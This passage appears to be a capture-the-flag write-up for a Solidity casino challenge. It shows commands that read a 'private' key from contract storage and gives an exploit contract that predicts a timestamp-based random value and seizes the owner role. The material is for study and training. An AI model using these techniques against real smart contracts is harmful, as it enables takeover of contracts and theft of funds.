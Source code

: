 ```shell
$cast storage --rpc-url $RPC_URL $ChallengeManagerAddress 1
```

This will return `0x494e4a55494e4a55494e4a5553555045524b45594b45594b45594b45594b4559`. This is the key.

The key in ASCII is `INJUINJUINJUSUPERKEYKEYKEYKEYKEY`.

#### Steps to Solve the Challenge

1. **Become a Challenger**: Send 5 ether to call the `approach()` function.
2. **Precompute the Gacha Value**: Calculate the gacha value to determine the outcome.
3. **Call `upgradeChallengerAttribute()`**: If the gacha value is zero or one, call `upgradeChallengerAttribute()` four times.
4. **Get the Key Value**: Retrieve the key value by examining the first slot of the `ChallengeManager`.
5. **Call `challengeCurrentOwner()`**: Once you have all attributes, call `challengeCurrentOwner()` to become the `casinoOwner`.
6. **Call `fireManager()`**: As the new `casinoOwner`, call `fireManager()` to set the `challengeManager` address to zero and solve the challenge.

Below is the Exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Setup, Privileged, ChallengeManager} from "src/contracts/Setup.sol";

contract ExploitPrivileged {
    Setup public setup = Setup(//YOUR__SETUP__ADDRESS);
    Privileged public privileged = Privileged(setup.privileged());
    ChallengeManager public challengeManager = ChallengeManager(setup.challengeManager());

    constructor() payable {
        uint256 gacha = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp))) % 4;
        if (gacha == 0 || gacha == 1) {
            challengeManager.approach{value: 5 ether}();
            for (uint8 i = 0; i < 4; i++) {
                challengeManager.upgradeChallengerAttribute(3, 3);
            }
            challengeManager.challengeCurrentOwner(0x494e4a55494e4a55494e4a5553555045524b45594b45594b45594b45594b4559);
            privileged.fireManager();
        } else {
            revert("Try again");
        }
    }
}
```

```shell
$ forge create ExploitPrivileged --rpc-url $RPC_URL --interactive --value 5ether
```
